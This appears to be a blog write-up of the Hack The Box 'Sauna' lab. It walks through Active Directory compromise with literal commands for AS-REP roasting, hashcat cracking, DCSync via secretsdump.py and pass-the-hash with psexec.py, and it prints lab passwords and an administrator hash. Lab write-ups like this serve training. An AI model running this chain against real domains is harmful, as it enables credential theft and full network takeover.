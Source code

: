 ```yaml
---
layout: single
title: Sauna - Hack The Box
excerpt: "Sauna is an easy difficulty Windows machine that features Active Directory enumeration and
exploitation. Possible usernames can be derived from employee full names listed on the website.
With these usernames, an ASREPRoasting attack can be performed, which results in hash for an
account that doesn't require Kerberos pre-authentication. This hash can be subjected to an
offline brute force attack, in order to recover the plaintext password for a user that is able to
WinRM to the box. Running WinPEAS reveals that another system user has been configured to
automatically login and it identifies their password. This second user also has Windows remote
management permissions. BloodHound reveals that this user has the DS-Replication-Get-Changes-
All extended right, which allows them to dump password hashes from the Domain Controller in a
DCSync attack. Executing this attack returns the hash of the primary domain administrator, which
can be used with Impacket's psexec.py in order to gain a shell on the box as authority system."
date:  2022-05-22
header:
  teaser: /assets/img/sauna/cover.png
  teaser_home_page: true
  icon: /assets/htb.png
categories:
  - hackthebox
  - infosec
tag:
    - Active Directory
    - DCSync
    - Bloodhound
    - Winpeas
    - ASREP
    - Kerberoasting
    - WinRM
---
```


![](/assets/img/sauna/cover.png)

## Synopsis

Sauna is an easy difficulty Windows machine that features Active Directory enumeration and
exploitation. Possible usernames can be derived from employee full names listed on the website.
With these usernames, an ASREPRoasting attack can be performed, which results in hash for an
account that doesn't require Kerberos pre-authentication. This hash can be subjected to an
offline brute force attack, in order to recover the plaintext password for a user that is able to
WinRM to the box. Running WinPEAS reveals that another system user has been configured to
automatically login and it identifies their password. This second user also has Windows remote
management permissions. BloodHound reveals that this user has the DS-Replication-Get-Changes-
All extended right, which allows them to dump password hashes from the Domain Controller in a
DCSync attack. Executing this attack returns the hash of the primary domain administrator, which
can be used with Impacket's psexec.py in order to gain a shell on the box as
NT_AUTHORITY\SYSTEM .

## Portscan

```powershell
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-15 06:38:30Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
```

## Reconaissance

### HTTP
let's added sauna.htb into our hosts

![](/assets/img/sauna/1.png)

in about.html get information about user, this page section has different between `index.html`

![](/assets/img/sauna/2.png)

this box very stright forward for lateral movement, i've done use `feroxbuster` for finding juicy files but not there. 

im gonna make wordlists from about.html, something like below:

```bash
FergusSmith
fsmith
fergusS
ShaunCoins
scoins
Shaunc
HugoBear
Hbear
HugoB
BowieTaylor
Btaylor
bowieTaylor
SophieDriver
Sdriver
SophieD
StevenKerb
Skerb
StevenK
```

then let's use `GetNPUsers.py` from impacket to perform `AS-REP` Roasting for finding Pre-Authentication option enabled with those list, AS-REP Roasting is one of kerebroasting methodology.

```bash
GetNPUsers.py -usersfile users.txt -format hashcat -dc-ip $ip EgotisticalBank/
```

![](/assets/img/sauna/3.png)

as you can see we get NTLM hash, let use `hashcat` with module 18200 for cracking that hash with prompt:

```bash
hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt 
```

![](/assets/img/sauna/4.png)

```text
Thestrokes23
```

we able to logged in using `evil-wirm` with prompt:

```bash
evil-winrm -i $ip -u fsmith -p 'Thestrokes23'
```

## Privilege Escalation

during the enumeration process i uploaded `winpeas.exe` into target and the result is we retrieve password for `svc_loanmgr` user.

![](/assets/img/sauna/6.png)

```bash
Moneymakestheworldgoround!
```

for next enumeration, i decide to upload sharphound.exe for gather information against active directory environment. 
execute command below for collect all data

```powershell
./Sharphound.exe -c all
```

![](/assets/img/sauna/7.png)

download that zip file into host, the start `bloodhound`; we're going into Dangerous Right feature for determining rights permission.

![](/assets/img/sauna/10.png)

result from bloodhound

![](/assets/img/sauna/13.png)

get an information like image below

![](/assets/img/sauna/12.png)

we can identify `SID` for user `svc_loanmgr` with prompt:

```powershell
Get-LocalUser -Name svc_loanmgr | Select Name, sid
```

![](/assets/img/sauna/11.png)

which mean this `svc_loanmgr` user has rights permission to perform DCSync attack, in short DCSync attack is Replication Service Remote Protocol (MS-DRSR) to pretend to be a domain controller (DC) in order to get user credentials from another DC. and now we can use `secretdump.py` from impacket for dumping administrator hash with following command:

```bash
secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!'@10.10.10.175
```

![](/assets/img/sauna/14.png)

now we can pass the hash (PTH) using `psexec` with following command:

```bash
psexec.py -hashes :823452073d75b9d1cf70ebdf86c7f98e administrator@10.10.10.175
```

![](/assets/img/sauna/15.png)

## Referencess

```
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
https://shellgeek.com/powershell-get-account-sid/
```